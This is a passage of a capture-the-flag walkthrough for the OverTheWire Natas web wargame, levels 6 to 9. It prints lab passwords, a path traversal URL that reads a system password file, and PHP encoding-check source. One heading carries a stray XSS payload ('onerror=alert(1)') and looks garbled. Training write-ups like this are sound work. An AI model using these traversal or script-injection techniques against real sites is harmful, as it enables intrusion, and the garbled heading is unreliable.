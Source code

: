```
//http://natas6.natas.labs.overthewire.org/includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

## 8> https://www.segmentfault.com<img src="x" onerror="alert(1)">. http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

```
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

![natas8](./natas/natas8.png)

## 9. 

source code

```
...
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```
